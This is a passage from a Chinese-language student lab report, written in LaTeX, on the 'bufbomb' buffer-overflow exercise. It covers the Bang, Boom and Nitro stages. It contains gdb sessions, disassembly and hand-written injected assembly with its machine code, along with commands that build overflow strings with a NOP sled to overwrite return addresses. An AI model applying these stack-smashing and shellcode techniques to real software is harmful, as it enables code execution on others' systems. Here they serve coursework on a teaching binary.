接着我们将攻击代码安排在输入缓冲区最开始的17个字节中。我们需要计算出攻击代码的入口地址。根据阶段1:\ref{l7}实验过程中的分析可知,\verb|getbuf|函数的返回地址保存在\verb|0x55683c54|中,并对应输入内容中的第\verb|44~47|字节的内容,攻击代码的入口地址即是输入缓冲区的首地址\verb|0x55683c28|。我们需要使用攻击代码的入口地址覆盖\verb|getbuf|函数的返回地址。

使用以下命令向\verb|bang_U202115325|中填入16进制字符串攻击代码:
\begin{lstlisting}
// 插入攻击代码
$ ./asm2bin.sh bang.s | head -n1 > bang_U202115325.txt // byte 0:16,攻击代码
$ ./gencode.sh 27 00 >> bang_U202115325.txt // byte 17:43,占位代码
$ echo -n "28 3c 68 55" >> bang_U202115325.txt // byte 44:47,攻击代码地址
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|bang_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中:
\begin{lstlisting}
$ ./hex2raw < bang_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Bang!: You set global_value to 0x7b52e696
VALID
NICE JOB!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段4:Boom}

\begin{enumerate}
\item 任务描述

设计攻击代码,将\verb|getbuf|函数的返回值修改为\verb|cookie|,并使程序能够返回到\verb|getbuf|函数的返回地址,且保持函数调用栈帧的结构不变。

\item 实验设计

\begin{enumerate}
\item 查看\verb|getbuf|函数刚开始运行时\verb|%ebp|的值;
\item 查看\verb|getbuf|函数的返回地址;
\item 设计攻击代码修改\verb|getbuf|函数的返回值并恢复\verb|%ebp|的值。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看\verb|getbuf|函数刚开始运行时\verb|%ebp|的值

使用\verb|gdb|查看\verb|getbuf|入口处\verb|%ebp|的值:
\begin{lstlisting}
$ gdb ./bufbomb
(gdb) b *0x80491ec // getbuf函数入口地址
Breakpoint 1 at 0x80491ec
(gdb) r -u U202115325
Userid: U202115325
Cookie: 0x7b52e696

Breakpoint 1, 0x080491ec in getbuf ()
(gdb) p $ebp
$1 = (void *) 0x55683c80 <_reserved+1039488>
\end{lstlisting}
通过输出可以知道,\verb|getbuf|函数的调用者栈帧的栈底为\verb|0x55683c80|。

\item 查看\verb|getbuf|函数的返回地址

查看\verb|bufboom.s|代码中调用\verb|getbuf|函数的下一条语句的地址:
\begin{lstlisting}
$ grep -E "call.*<getbuf>" -A1 bufbomb.s
 8048e7c:       e8 6b 03 00 00          call   80491ec <getbuf>
 8048e81:       89 c3                   mov    %eax,%ebx
\end{lstlisting}
由上述输出可以看出,\verb|getbuf|函数的返回地址为\verb|0x8048e81|

\item 设计攻击代码修改\verb|getbuf|函数的返回值并恢复\verb|%ebp|的值

在攻击代码中我们首先需要将函数的返回值修改为\verb|cookie|。由于函数的返回值保存在\verb|%eax|中,我们只需要将\verb|%eax|的值设为\verb|cookie|即可。接着我们还需要将\verb|%ebp|的值恢复为\verb|0x55683c80|。最后我们需要使程序跳转到\verb|getbuf|函数原来的返回地址。由于本关卡要求不能够改变程序运行的状态,在跳转的时候我们需要使用\verb|push|指令与\verb|ret|指令实现。

攻击汇编代码保存在\verb|boom.s|中,如下所示:
\begin{lstlisting}
.text
    movl $0x7b52e696, %eax // %eax = my cookie
    movl $0x55683c80, %ebp // 恢复ebp的值
    push $0x08048e81 // getbuf的返回地址
    ret
\end{lstlisting}

将上述汇编代码转化成机器码并写入\verb|boom_U202115325.txt|中,同时使用攻击代码的地址覆盖\verb|getbuf|函数的返回地址:
\begin{lstlisting}
$ ./asm2bin.sh boom.s
b8 96 e6 52 7b bd 80 3c 68 55 68 81 8e 04 08 c3 
code length : 16 Byte // 攻击代码16字节
$ ./asm2bin.sh boom.s | head -n1 > boom_U202115325.txt // byte 0:17,攻击代码
$ ./gencode.sh 28 00 >> boom_U202115325.txt // byte 18:43,占位代码
$ echo -n "28 3c 68 55" >> boom_U202115325.txt // byte 44:47,攻击代码地址
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|boom_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中:
\begin{lstlisting}
$ ./hex2raw < boom_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Boom!: getbuf returned 0x7b52e696
VALID
NICE JOB!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段5:Nitro}

\begin{enumerate}
\item 任务描述

本关卡需要我们通过输入一些内容使输入缓冲区溢出使得\verb|getbufn|返回\verb|cookie|的值,同时保持函数的栈帧结构不变。但本关卡会连续调用多次\verb|getbuf|函数,且每次调用\verb|getbufn|函数时其栈帧的位置都不相同,即\verb|bufbomb|中模拟了栈随机化的效果。我们需要输入代码使得在栈随机化的情况下也能正常的攻击。

\item 实验设计

\begin{enumerate}
\item 查看\verb|getbufn|的代码,并确定输入缓冲区起始地址变化的范围;
\item 查看\verb|getbufn|的返回地址;
\item 确定\verb|testn|中\verb|%ebp|相对与\verb|%esp|的偏移量;
\item 设计攻击代码;
\item 填写用于输入的16进制攻击字符串序列。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看\verb|getbufn|的代码,并确定输入缓冲区起始地址变化的范围
\label{l7}

在\verb|getbufn|的代码中,调用\verb|Gets|函数的部分如下:
\begin{lstlisting}
8049213: 89 04 24       mov  %eax,(%esp) // 参数,缓冲区首地址
8049216: e8 37 fb ff ff call 8048d52 <Gets>
804921b: b8 01 00 00 00 mov  $0x1,%eax
\end{lstlisting}
通过分析上述代码可以知道,\verb|Gets|函数接收缓冲区首地址作为参数,并且这个参数保存在\verb|%eax|寄存器中。我们只需要使用\verb|gdb|查看程序运行到\verb|0x8049213|地址处时\verb|%eax|的值即可确定输入缓冲区首地址变化的范围。

调试过程如下:
\begin{lstlisting}
$ echo "test input" > test.txt
$ gdb ./bufbomb
(gdb) b *0x8049213 // 对应上述代码第一行
Breakpoint 1 at 0x8049213
(gdb) r -u U202115325 -n < test.txt
Userid: U202115325
Cookie: 0x7b52e696

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$1 = 0x55683a48
(gdb) c
Continuing.
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$2 = 0x55683aa8
(gdb) c
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$3 = 0x55683a28
(gdb) c
Continuing.
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$4 = 0x55683a78
(gdb) c
Continuing.
Type string:Dud: getbufn returned 0x1
Better luck next time

Breakpoint 1, 0x08049213 in getbufn ()
(gdb) p /x $eax
$5 = 0x55683a88
\end{lstlisting}
通过上述输出可以知道,在五次调用\verb|getbufn|函数中,输入缓冲区首地址的值分别为\verb|0x55683a48|、\verb|0x55683aa8|、\verb|0x55683a28|、\verb|0x55683a78|以及\verb|0x55683a88|。经过我多次调试发现,在相同的\verb|cookie|下,本实验中循环调用\verb|getbufn|函数时,输入缓冲区首地址都为上述值,并没有随机性。

\item 查看\verb|getbufn|的返回地址

查看\verb|bufbomb.s|中\verb|getbufn|函数的返回地址:
\begin{lstlisting}
$ grep -E "call.*<getbufn>" -A1 bufbomb.s
 8048e10:       e8 ef 03 00 00          call   8049204 <getbufn>
 8048e15:       89 c3                   mov    %eax,%ebx
\end{lstlisting}
返回地址为:\verb|0x8048e15|。

\item 确定\verb|testn|中\verb|%ebp|相对与\verb|%esp|的偏移量

分析\verb|testn|函数中关于栈帧结构的代码:
\begin{lstlisting}
08048e01 <testn>:
 8048e01:	55          push   %ebp
 8048e02:	89 e5       mov    %esp,%ebp  // %ebp=%esp
 8048e04:	53          push   %ebx       // %ebp=%esp+0x4
 8048e05:	83 ec 24    sub    $0x24,%esp // %ebp=%esp+0x4+0x24
\end{lstlisting}
根据上述栈帧结构的变化,很容易知道在\verb|testn|中\verb|%ebp|相对于\verb|%esp|的偏移量为\verb|0x4+0x24=0x28|。由于在程序条用攻击代码并转跳回\verb|testn|函数的过程中,\verb|%esp|的值并不会受到攻击代码的影响,因此在恢复函数栈帧结构时只需要将\verb|%esp+0x28|赋给\verb|%ebp|即可。

\item 设计攻击代码

在攻击代码中我们首先需要将\verb|cookie|的值赋给\verb|%eax|作为\verb|getbufn|函数的返回值,接着还需要将\verb|%ebp|的值设为\verb|%esp+0x28|,最后需要转跳回\verb|testn|函数中。

攻击代码\verb|nitro.s|如下:
\begin{lstlisting}
.text
    movl $0x7b52e696, %eax // %eax = my cookie
    leal 0x28(%esp), %ebp // 恢复,%ebp=%esp+0x28
    push $0x8048e15 // 转跳回testn
    ret
\end{lstlisting}

\item 填写用于输入的16进制攻击字符串序列

分析\verb|getbufn|中输入缓冲区的长度:
\begin{lstlisting}
08049204 <getbufn>:
 8049204:	55                   	push   %ebp
 8049205:	89 e5                	mov    %esp,%ebp
 8049207:	81 ec 18 02 00 00    	sub    $0x218,%esp
 804920d:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax // 输入缓冲区
 8049213:	89 04 24             	mov    %eax,(%esp)
 8049216:	e8 37 fb ff ff       	call   8048d52 <Gets>
\end{lstlisting}
由上述代码段可知,\verb|getbufn|函数给输入缓冲区分配了\verb|0x208=520|个字节,再结合第一关的分析可知,输入缓冲区后紧跟着的是\verb|%ebp|的旧值以及\verb|getbufn|函数的地址,分别对应输入的第\verb|520~523|字节、第\verb|524~527|字节。

在在本关中,由于栈空间的位置是变化的,因此我们需要在攻击代码中设计一个空操作雪橇(nop sled),使得\verb|getbufn|在受到缓冲区溢出攻击后能够转跳到一系列连续的\verb|nop|操作中,并通过这些\verb|nop|操作后最终到达攻击代码段。

因此,我们在输入的十六进制字符串中首先输入大量重复的\verb|nop|对应的机器码\verb|0x90|,紧跟着的是\verb|nitro.s|对应的机器代码。最后是用于覆盖返回地址的攻击代码段地址,在这里我们采用\ref{l7}中获取的输入缓冲区首地址最大值\verb|0x55683aa8|,使得可执行程序可以转跳到一系列\verb|nop|操作中的一个指令,并沿着\verb|nop|操作最终到达攻击代码段。

查看\verb|nitro.s|对应的机器码及其长度:
\begin{lstlisting}
$ ./asm2bin.sh nitro.s
b8 96 e6 52 7b 8d 6c 24 28 68 15 8e 04 08 c3 
code length : 15 Byte
\end{lstlisting}

在输入的16进制串中,一共包含\verb|520+4+4=528|个字节,最后四个字节为转跳地址\verb|0x55683aa8|,在转跳地址前的\verb|15|个字节为\verb|nitro.s|对应的机器码,剩下的\verb|528-4-15=509|个字节为\verb|nop|操作对应的机器码\verb|0x90|。生成16进制字符串的过程如下:
\begin{lstlisting}
$ ./gencode.sh 509 90 > nitro_U202115325.txt // byte 0:508,nop sled
$ ./asm2bin.sh nitro.s | head -n1 >> nitro_U202115325.txt // byte 509:523,攻击代码
$ echo -n "a8 3a 68 55" >> nitro_U202115325.txt // byte 524:527,转跳地址
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|boom_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中:
\begin{lstlisting}
$ ./hex2raw < nitro_U202115325.txt -n | ./bufbomb -u U202115325 -n
Userid: U202115325
Cookie: 0x7b52e696
Type string:KABOOM!: getbufn returned 0x7b52e696
Keep going
Type string:KABOOM!: getbufn returned 0x7b52e696
Keep going
Type string:KABOOM!: getbufn returned 0x7b52e696
Keep going
Type string:KABOOM!: getbufn returned 0x7b52e696
Keep going
Type string:KABOOM!: getbufn returned 0x7b52e696
VALID
NICE JOB!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsection{实验小结}

本次缓冲区溢出攻击的实验使我对函数栈帧的结构有了更加清晰的认识,对于函数的调用与返回也有了进一步的理解。函数的栈帧空间主要用于传递参数以及保存本地变量,因此,绝大多数函数都有自己的栈帧空间,少部分函数由于可以使用寄存器传参且不包含本地变量则可以不占用栈帧空间。同时,函数的栈帧空间还用于保存调用者的断点地址,便于在被调用函数返回时能够跳转到调用者的断点地址。同时我还认识到,调用C语言中的gets函数会可能会使程序遭受到缓冲区溢出攻击,因为gets函数并不会检查输入的长度。我们可以利用缓冲区溢出攻击,将函数的返回地址覆盖掉,并替换成攻击代码的入口地址,使得程序运行我们的攻击代码。

本次实验中我使用gdb进行调试,这使我对gdb的使用方法掌握程度更进一步。同时,在本实验中我多次使用Linux中的grep命令与sed命令进行字符串的查找与替换,还编写了两个shell脚本在实验中使用,这使我对Linux操作系统的使用更加熟悉。

\section{实验总结}



\end{document}